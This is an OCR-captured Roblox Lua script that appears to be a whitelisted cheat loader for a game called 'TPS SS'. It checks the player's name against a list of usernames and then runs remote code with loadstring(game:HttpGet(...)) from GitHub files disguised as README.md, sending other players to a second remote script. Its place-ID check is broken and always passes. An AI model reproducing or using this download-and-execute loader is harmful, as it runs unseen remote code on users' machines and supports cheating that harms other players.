 local whitelist = {
    "ItzSwara31",
    "Arda1420",
    "252531_werza",
    "Tpsciawain", --me
    "arda", 
    "AmacsizAhmet5",
    "qazztr",
    "31cihasanxd",
    "Alexnimo2022",
    "ablanidelim",
    "azemessi3a",
    "itsh0r",
    "2525israfil",
    "Zzz_tps2",
    "tpsciawain",
    "harunisteaq9" -- giveaway winner
}

if table.find(whitelist, game.Players.LocalPlayer.Name) then
        local id = game.PlaceId
if id == 335760407 or 13762482705 then
game.StarterGui:SetCore("SendNotification",{
			Title = "Loading...";
			Text = "Loading will take some seconds...";
			Duration = 5;
})
    loadstring(game:HttpGet("https://raw.githubusercontent.com/ArdaAkpinar/level/main/README.md"))()
else
    game.Players.LocalPlayer:Kick("It's not TPS SS!")
end
else
    loadstring(game:HttpGet("https://raw.githubusercontent.com/ArdaAkpinar/kicked1/main/README.md"))();
end

